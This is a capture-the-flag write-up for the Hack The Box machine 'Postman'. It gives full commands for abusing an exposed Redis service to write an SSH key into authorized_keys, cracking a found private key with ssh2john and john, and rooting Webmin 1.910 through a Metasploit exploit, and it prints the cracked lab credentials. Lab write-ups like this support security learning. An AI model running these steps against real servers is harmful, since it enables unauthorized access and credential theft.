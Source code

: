 ```yaml
---
layout: default
---
```

## Postman
###### Retired March 2020
![](https://www.hackthebox.eu/storage/avatars/ad38e890e4e93afce51118bec4b9f48b.png)

I think and hope this is my last writeup before I discovered [Greenshot](https://getgreenshot.org/). Just want to show love for a great application. Postman was a really easy machine loaded up with a couple of quick CVEs that exploited Redis for user and Webin for root. I’ve already added the machine to my /etc/hosts file as postman.htb. As always, I started with ```nmap```.

```bash
nmap -T5 -A -p 1-65535 postman.htb -n -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/postman/nmap.JPG)

nmap showed that SSH, HTTP, Redis, and Webmin MiniServ were available on this machine. I did a quick glance at the website. 

![](https://yaboygmoney.github.io/htb/images/postman/website.JPG)

Nothing much was going on with the main page in the source. I ran gobuster and found some directories that sounded interesting but didn’t provide anything. That was expected, as the other services looked a little more interesting.

Checking out Redis version 4.0.9, I was quickly pointed to an [RCE exploit](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). I checked for remote command execution vulnerability of the remote host with telnet first.

```bash
telnet postman.htb 6379
ECHO "Vulnerable"
```

![](https://yaboygmoney.github.io/htb/images/postman/vulncheck.JPG)

The system echoing back is a good sign. To take advantage of this exploit, I first needed to get redis tools. 

```bash 
apt-get install redis-tools
```

From there, it’s as easy as following the [CVE](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html).

```bash
ssh-keygen -t rsa -C “redis@postman.htb”
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
redis-cli -h postman.htb flushall
cat foo.txt | redis-cli -h postman.htb -x set crackit
redis-cli -h postman.htb
config get dir
config set dbfilename “authorized_keys”
save
```

![](https://yaboygmoney.github.io/htb/images/postman/sshprep.JPG)

Now I’m set to use the new key I just generated.

```bash
ssh -i id_rsa redis@postman.htb
```

![](https://yaboygmoney.github.io/htb/images/postman/redisLogin.JPG)

Successfully logged in, I can see that there’s only a single user’s home directory present: Matt. I half-heartedly try to cat the user flag and, as expected, am denied.

![](https://yaboygmoney.github.io/htb/images/postman/denied.JPG)

During enumeration, I found a backup file “id_rsa.bak”. A quick way to do this is to run

```bash
locate *.bak
```

![](https://yaboygmoney.github.io/htb/images/postman/locate.JPG)

An RSA private key. I copied the contents of that file back into gedit and saved it. Then, I ran it against the tool ssh2john. This tool converts an SSH key to a hash that John can crack.

```bash
/usr/share/john/ssh2john.py mattkey > mattkey.hash
```

After I’ve converted the key to a hash, I can run john against it to carve out the password.

```bash
john –wordlist=/usr/share/wordlists/rockyou.txt mattkey.hash
```

![](https://yaboygmoney.github.io/htb/images/postman/cracked.JPG)

I’ve now got a full-fledged set of creds: Matt:computer2008. Now that I have Matt’s password, I can ```su``` to Matt and get the user flag from the redis ssh session.

![](https://yaboygmoney.github.io/htb/images/postman/user.JPG)

Looking back at the nmap results, Webmin MiniServ 1.910 is served up on port 10000. There is an ![exploit]( https://www.exploit-db.com/exploits/46984) created for this version for any authenticated user to execute the package updates module as root. I downloaded the exploit and loaded it into my Metasploit exploits.

```bash
cd ~/.msf4/modules/exploits/linux
wget https://www.exploit-db.com/exploits/46984
msfconsole
```
Then I queue the exploit.

![](https://yaboygmoney.github.io/htb/images/postman/payload1.JPG)

I tried sending that configuration and got an error, no session. Then I remembered that the Webmin server was running on HTTPS and set SSL to True in Metasploit and fired again.

![](https://yaboygmoney.github.io/htb/images/postman/rooted.JPG)

Success. The CVE is exploited.

Until next time.

#### Keep trying
